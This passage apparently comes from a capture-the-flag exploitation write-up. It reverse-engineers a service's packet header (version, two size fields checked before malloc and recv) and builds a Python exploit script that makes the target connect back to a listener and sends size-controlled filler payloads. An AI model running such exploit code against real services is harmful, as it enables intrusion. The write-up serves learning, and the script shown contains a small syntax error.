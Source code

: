 This script will be the basis for continuing our exploit. The script starts one main thread by calling `start_threads` which has the function `thread_listen`. Currently, `thread_listen` simply binds to a random port and prints out the connection for each accepted connection. After this thread is started, we send our 8 byte payload containing our number of connections we want to receive, the port to connect back to, and the host to connect back to (ourselves). Running this script against the docker container results in the followning.

<script type="text/javascript" src="https://asciinema.org/a/9scs8owqkcmxh5ddpvbs76g8p.js" id="asciicast-9scs8owqkcmxh5ddpvbs76g8p" async></script>

Now that we receive connections, let's see what we can control in these connections. Looking further in `process_host` we see the following packet structure being decoded:

```
2 bytes - Header Version - Must be 1
2 bytes - Size1 
4 bytes - Length - Must be <= 0x40000000
```

The first two bytes are a static check against the number `1`, so we can hard code that into our exploit. The next 6 bytes are interesting. It appears to be two size values, one 2 bytes and the other 4 bytes. The 4 byte length is checked to be under `0x40000000` and then the sum of both sizes is allocated via `malloc`. This chunk and size are passed to a `recv` call to fill with our data as well.

Now that we have this reversed, let's add a bit more to our exploit to confirm.

```python
def thread_listen(port=9999):
    l = socket.socket()
    l.bind(('0.0.0.0', port))
    l.listen(5)

    for i in xrange(num_threads):
        c, _ = l.accept()
        print(c, _)
        t = threading.Thread(target=thread_send, args=(c, 0xad, 0xde00))
        t.start()

def thread_send(c, size1, size2):
    version = p16(1)

    # malloc(size1 + size2 + 8)
    # size1 = p16(size1) # 16 bit size
    # size2 = p32(size2) # 32 bit size, must be <= 0x40000000

    header = version + p16(size1-8) + p32(size2)

    payload = header
    payload += 'A' * (size1 + size2))
    c.send(payload)
```

Here, we add a bit more logic to our `thread_send` function so that we send the correct header filled with enough `A` to fill the sum of the sizes.
